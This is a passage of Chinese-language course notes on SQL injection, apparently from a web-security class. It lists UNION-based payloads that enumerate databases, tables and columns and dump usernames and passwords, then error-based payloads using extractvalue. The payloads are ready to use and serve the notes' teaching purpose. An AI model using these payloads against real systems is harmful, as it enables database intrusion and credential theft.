 ```
1' union select 1,concat(user,password) from users --
1' union select 1,concat_ws("_",user,password) from users --

// 1.获取数据库列表
-1' union select schema_name,2 from information_schema.schemata -- qwe
//获取指定表(可以省略)
-1' union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' -- qwe

//2.获取表的字段信息
-1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe

//3.获取字段内容
-1' union select 1,concat_ws("_",username,password) from admim -- qwe
```

###### ⑨破解加密

* 将加密后的数据根据加密规则进行解密

## 第二天

### 1. 报错注入

#### (1). 概念

* 利用数据库的**某些机制**，**人为的**制造出错误条件，使得查询结果能够出现在**报错信息中**
* 想办法**构造语句**，**让错误信息中可以显示数据库的内容**

#### (2). 基本手法

##### a. XPATH

###### ①extractvalue

extractvalue(arg1,arg2)

* arg1：**XML文档**，arg2：**XPATH语句**，至少接收2个参数

* mysql5.1及以上

* 标准payload

  ```
  1' and extractvalue(1,concat(0x7e,user(),0x7e)) --+
  
  //在报错信息中查询出
  1' and extractvalue(1,arg2) --+
  arg2= concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```

![报错注入信息](../../images/8-20-morning/extractvalue报错注入.png)
